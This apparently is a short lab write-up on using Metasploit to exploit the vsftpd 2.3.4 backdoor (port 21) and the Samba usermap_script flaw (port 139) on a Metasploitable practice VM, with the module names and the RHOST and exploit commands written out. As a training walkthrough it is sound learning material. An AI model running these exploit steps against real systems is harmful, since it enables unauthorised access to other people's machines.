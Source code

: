 ```yaml
---
description: exploiting vulnerabilities
---
```


# Metasploit usage 1

Load the metasploit framework using `msfconsole`

## Exploiting open port 21 in metasploitable using metasploit

we search the port 21 vulnerability on google, stumbled on rapid7 (metasploit) website and get a guide to perform this attack.

```bash
use exploit/unix/ftp/vsftpd_234_backdoor     # launching the attack
```

```bash
show options    # shows the available options for the vulnerablity.
set RHOST 192.168.81.132    # we use 'set' to set the 'RHOST' to the correct ip addr.
```

<figure><img src="../.gitbook/assets/Screenshot from 2023-03-22 03-00-37.png" alt=""><figcaption><p>after executing the set RHOST cmd</p></figcaption></figure>

after setting the RHOST and RPORT, type `exploit` to execute the attack, we now have access to the machine.

<figure><img src="../.gitbook/assets/Screenshot from 2023-03-22 03-01-19.png" alt=""><figcaption><p><code>exploit</code></p></figcaption></figure>

## Exploiting open port 139 in metasploitable using metasploit

`use exploit/multi/samba/usermap_script`

same method as with port 21.





